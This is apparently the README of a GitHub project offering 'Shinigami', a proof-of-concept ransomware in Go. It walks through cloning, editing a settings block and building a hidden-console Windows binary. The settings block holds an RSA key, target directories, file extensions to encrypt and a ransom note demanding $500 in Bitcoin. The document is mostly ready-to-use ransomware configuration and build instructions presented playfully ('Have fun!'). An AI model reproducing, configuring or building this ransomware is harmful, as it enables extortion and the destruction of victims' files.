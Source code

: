 # Shinigami
Shinigami PoC ransomware
![ICON](https://github.com/user-attachments/assets/00d9b120-88c0-4ee6-b1e9-97dd404dab7b)
<br>
Shinigami is a PoC ransomware written in go<br><br>
tested on windows 11
## possibilities:
<ul>
<li>using hybrid encryption (which is fast and safe)</li>
<li>customize settings</li>
<li>good appearance</li>
<li>changing background picture</li>
</ul>

## requirements:
<ul>
<li>gcc (added to Path)</li>
<li>golang (you can download from here: https://golang.org/dl/)</li>
<li>fyne (golang library: http://www.fyne.io/fyne)</li>
</ul>

## to use:

### clone the repository

```
https://github.com/bala-ganesh-m/Shinigami-Ransomware/
```

### change settings

go to Shinigami/shinigami/main.go and change the settings:

```golang
	/*** SETTINGS ***/
	//server rsa public key ( if you want to change this you should first generate a rsa keypair next replace it in both ransomware and decryptor programs )
	serverpubkey := "-----BEGIN PUBLIC KEY-----\nMIIBojANBgkqhkiG9w0BAQEFAAOCAY8AMIIBigKCAYEA3eWrYNmEzwLXGT0HUqqu\nkrimoiBKZE9mIzWvN51YLONneY0B8/yiLgJxg5pUOp8AEnu3gQm9uPQzbdyZniQq\n58HzSS+2Py17/UWlwqZVueUQ/RBvhH/BaEDZlKK7SUzeUqWbC0klDeLQ1nY48DEJ\nD2wNkz3CWXgDqQ0tfOqy+hRrR6ispOZc7k2SDd6cX8jkKzacH7sxBDYDVT2E/nYP\nkOBcCUW2ywN/y0FE1uqxim+axwtFW652k5ARHalmOVIXM6Oky6r4x49MN8zkIZEC\nhGDIOxQGYUEtp+0NhmAMyl26DtI23NMjyTaB7+DYtEZzSYgBllmfla1RtoEgKaHI\ns30PIUvZQGmg6VcEEhfy0hbtjDjWANkBrNewK46mH9pwH2wsYmm9QSftUjF62PbM\nLrFxoJS1w6NeYTC+s5JqGnG3sftCzGXMI+VSRvoVAWU+mm/ntQj5yww4nRq4Ylre\nJZAsLRUfT87c5uomolGitlGPIyXjxhxgPzc5egvQ199BAgMBAAE=\n-----END PUBLIC KEY-----"
	//root directory ( only files in this directory and subfolders of this directory will be encrypted )
	rootdir := "E:\\"
	//valid file extensions to encrypt ( only files with these extensions will be encrypted )
	validfileextensions := []string{"lnk", "pdf", "doc", "docx", "docm", "xlsx", "xlsm", "jpg", "jpeg", "png", "mp3", "mp4", "mkv", "py", "cs", "c", "c#", "cpp", "pptx", "pkt"}
	//valid file size to encrypt ( only files that have the same or less weight than this will be encrypted )
	//here is 400MB --> 1024 * 1024 * 400 = 419430400
	validfilesize := 419430400
	//the massage you want to show to the victim
	message := "YOUR FILES HAVE BEEN ENCRYPTED \n\nAll of your important files have been locked with our encryption \nYou will not recover them without our decryption tool. \n\nDo not attempt to decrypt the files yourself \nDo not shut down or restart your PC.\n\n"
	message += "To restore access: \nSend $500 in Bitcoin to the address below. \nBitcoin Address: bc1qtnqwcwffkvh6dmu9twfg3x5svwew0lp077k86"
```

### create binary file

just go to Shinigami/shinigami directory and run: <br>

```
go build -ldflags -H=windowsgui -o Shinigami.exe main.go
```

-ldflags -H=windowsgui options will hide the console window

### run the file

just click on shinigami.exe file<br>
after some seconds desktop ppicture will change and a window like this will appear<br>

![Screenshot 2025-04-08 185317](https://github.com/user-attachments/assets/67b60deb-9839-4245-a107-0762a4630694)
<br>


and you can see that some of your files are encrypted<br>

![Screenshot 2025-04-08 185429](https://github.com/user-attachments/assets/33efb55d-bd47-4040-b976-85b4edbac8f5)
<br>

### decrypting files

to decrypt files click on Get victimkey button. you will see a notepad window. <br>

![Screenshot 2025-04-08 185507](https://github.com/user-attachments/assets/42cc79d6-e1f4-4500-a2a4-f50a410c77fe)
<br>

copy this text and go to Shinigami/shinigamidecryptor and run:<br>

```
go run decryptor.go <victim key here>
```

decryptor will give you a 32 character text like this:<br>
```
k8T2fDFkKbdBwdlnbVgxJTucm0oNBdwa
```
now enter this text in Password textbox and click on Check password button. psycho will start to decrypt your files (it can take a while)<br>
![Screenshot 2025-04-08 190112](https://github.com/user-attachments/assets/28fddb9a-e268-4f77-b4bf-7012f59dd8d3)
<br>

Now you got your files back<br>

Have fun!
